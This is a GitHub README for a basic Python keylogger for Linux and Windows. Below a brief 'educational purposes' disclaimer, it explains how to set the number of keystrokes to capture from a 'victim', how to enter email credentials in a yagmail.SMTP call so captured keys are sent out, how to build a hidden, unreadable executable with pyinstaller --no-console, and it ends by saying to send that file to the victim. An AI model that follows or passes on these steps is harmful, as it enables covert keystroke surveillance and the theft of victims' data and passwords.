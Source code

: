 # keylogger
Basic keylogger for Linux and Windows

# Disclaimer
```
Do not use this for black hat purposes
this created just for educational purposes
```
# how-to-install
Clone the repository
```
git clone https://github.com/Cli3nt-ctrl/keylogger/
```
Change the directory
```
cd keylogger
```
Install the reuired python libraries
```
pip3 install requirements.txt
```

# how-to-use
open keylogger.py and enter the number of letters you wanna capture through victim
```
Enter the numbers here in the if loop :-- if len(a)==10 (default value is set as 10)
```
Enter your email id and password here
```
yagmail.SMTP(user='',password='')
```
Using the pyinstaller is optional. Pyinstaller creates your python file into executable format (.exe in  Windows and .elf in Linux) which also makes your python file unreadable
```
pyinstaller keylogger.py --no-console --onefile 
```
Your executable file will be in dist folder
```
cd dist
```
Send the executable file to your victim
